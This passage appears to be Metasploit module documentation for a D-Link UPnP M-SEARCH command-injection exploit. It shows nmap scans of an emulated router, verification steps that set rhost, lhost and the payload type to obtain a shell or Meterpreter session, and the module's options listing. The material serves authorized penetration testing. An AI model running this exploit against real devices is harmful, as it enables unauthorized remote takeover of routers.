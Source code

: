 ```shell
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
443/tcp   open  https
8181/tcp  open  intermapper
49152/tcp open  unknown
MAC Address: 00:DE:FA:1A:01:00 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.25 seconds
 # nmap -sU 192.168.0.1
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-17 18:34 UTC
Nmap scan report for 192.168.0.1
Host is up (0.0019s latency).
Not shown: 993 closed udp ports (port-unreach)
PORT      STATE         SERVICE
53/udp    open          domain
67/udp    open|filtered dhcps
137/udp   open|filtered netbios-ns
1900/udp  open|filtered upnp
5353/udp  open          zeroconf
5355/udp  open|filtered llmnr
19541/udp open|filtered jcp
MAC Address: 00:DE:FA:1A:01:00 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1054.98 seconds
```
You are now ready to test the module using the emulated router hardware on IP address 192.168.0.1.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/upnp/dlink_upnp_msearch_exec`
- [x] `set rhosts <ip-target>`
- [x] `set rport 1900`
- [x] `set http_port 80`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix Command, 1=Linux Dropper>`
- [x] `exploit`

you should get a `shell` or `Meterpreter`

```shell
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > options

Module options (exploit/linux/upnp/dlink_upnp_msearch_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.0.1      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      1900             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   HTTP_PORT  80               yes       Universal Plug and Play (UPnP) UDP port
   URIPATH                     no        The URI to use for this exploit (default is random)
   URN        urn:device:1     no        Set URN payload
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:
```
